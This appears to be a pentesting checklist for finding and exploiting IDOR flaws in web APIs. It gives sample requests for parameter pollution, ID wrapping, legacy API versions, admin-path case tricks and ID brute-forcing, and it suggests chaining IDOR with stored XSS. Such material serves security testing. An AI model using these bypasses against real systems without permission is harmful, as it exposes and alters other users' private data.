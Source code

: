 **Every time you see a new API endpoint that receives an object ID from the client, ask yourself the following questions:**

- Does the ID belong to a private resource? (e.g /api/user/123/news vs  /api/user/123/transaction)
- What are the IDs that belong to me?
- What are the different possible roles in the API?(For example — user, driver, supervisor, manager)

**Bypassing Object Level Authorization:**

- [ ] Add parameters onto the endpoints for example, if there was

```html
GET /api_v1/messages --> 401
vs 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

**Why Does this Work?**: Sometimes the applications authorization settings are not set to directory level, or the whole URL, making it so that adding URL parameters can bypass previous restrictions to certain endpoints. 

**Note**: To find URL parameters for endpoints, use tools like [Arjun](https://github.com/s0md3v/Arjun) to bruteforce common IDOR URL parameter names.



- [ ] Test for HTTP Parameter pollution

```html
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]

/api/v1/users/profile?id=[myId,victimId]
```

- [ ] Add .json to the endpoint, if it is built in Ruby!

```html
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

- Test on outdated API Versions

```html
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

Wrap the ID with an array.

```html
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

Wrap the ID with a JSON object:

```html
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

JSON Parameter Pollution:

```html
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

MFLAC:

```html
GET /admin/profile --> 401 Unauthorized

GET /ADMIN/profile --> 200 OK
```

- [ ] Try to send a wildcard(*) instead of an ID. It’s rare, but sometimes it works.
- [ ] Check through the same corresponding mobile API endpoints for the webapp, to find uuids, if you need them to complete the IDOR exploitation
- [ ] Many times there will be endpoints to translate emails into GUID's, check for those
- [ ] If it is a number id, be sure to test through a large amount of numbers, instead of just guessing Ex: Burp intruder from ID 100-1000
- [ ] If endpoint has a name like /api/users/myinfo, check for /api/admins/myinfo
 
- [ ] Test other HTTP methods, GET, POST, PATCH, PUT, DELETE etc.
- [ ] Test for 'Mass assignments'. Find a GET-request that returns all endpoints and try to add these to other requests.
- [ ] Test older versions of the API, for example `/api/v3/login` -> `/api/v2/login`.
- [ ] Test the endpoint unauthenticated


**Escalating/Chaining with IDOR's Ideas:**

1.  Lets say you find a low impact IDOR, like changing someone elses name, chain that with XSS and you have stored XSS!
2. If you find IDOR on and endpoint, but it requires UUID, chain with info disclosure endpoints that leak UUID, and bypass this!
